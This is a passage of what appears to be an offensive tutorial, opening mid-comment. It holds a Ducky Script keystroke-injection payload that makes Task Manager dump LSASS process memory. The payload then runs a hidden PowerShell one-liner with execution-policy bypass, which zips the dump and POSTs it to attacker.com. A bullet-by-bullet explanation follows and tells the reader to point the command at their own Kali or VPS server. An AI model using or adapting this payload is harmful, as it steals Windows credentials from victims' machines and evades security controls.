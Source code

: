 ```bat
REM dump file" option.
DOWN
DOWN
DOWN
DOWN

REM Press Enter to select the "Create dump file" option.
ENTER

REM Allow 3.5 seconds for the dump file to create and save itself
REM to the %TEMP% directory.
DELAY 3500

REM Press Enter to select "OK" and close the dump popup window.
ENTER

REM ALT+F4 combination to close the Task Manager window.
ALT F4

REM Allow .7 seconds for the Task Manager to close.
DELAY 700

REM Open the run command window again.
GUI r

REM Allow .7 seconds for the run window to open.
DELAY 700

REM PowerShell one-liner to compress and exfiltrate the LSASS
REM dump file. Each part of the one-liner is explained in greater
REM detail below.
STRING powershell -ep bypass /w 1 /C $t=$env:temp;$l='lsass.DMP';compress-archive -path $t\$l -destinationpath $t\a.zip;iwr attacker.com/i.php -method POST -infile $t\a.zip

REM Press Enter to execute the PowerShell one-liner.
ENTER
```

The PowerShell payload consists of several commands chained together by semicolons:

- `powershell -ep bypass /w 1 /C` — The ExecutionPolicy (-ep) is set to "bypass" to allow PowerShell execution through Windows Defender and some antivirus software. The WindowStyle (/w) is set to "1," which immediately hides the PowerShell pop-up terminal.
- `$t=$env:temp;` — The target's temp directory is set to the variable $t. The single-letter variable usage helps shorten the overall length of the payload; It's more effective than typing "C:\Users\%USERNAME%\AppData\Local\Temp" over and over again.
- `$l='lsass.DMP';` — The lsass.DMP filename is set to the variable $l. This filename is defined by the Task Manager automatically.
- `compress-archive -path $t\$l -destinationpath $t\a.zip;` — PowerShell's Compress-Archive cmdlet is used to zip the lsass.DMP (-path) into the "a.zip" (-destinationpath) file.
- `iwr attacker.com/i.php -method POST -infile $t\a.zip` — Invoke-Webrequest (iwr) sends the a.zip (-infile) to the attacker's server in the form of a POST request. Be sure to change "attacker.com" to Kali's local IP address or VPS address.

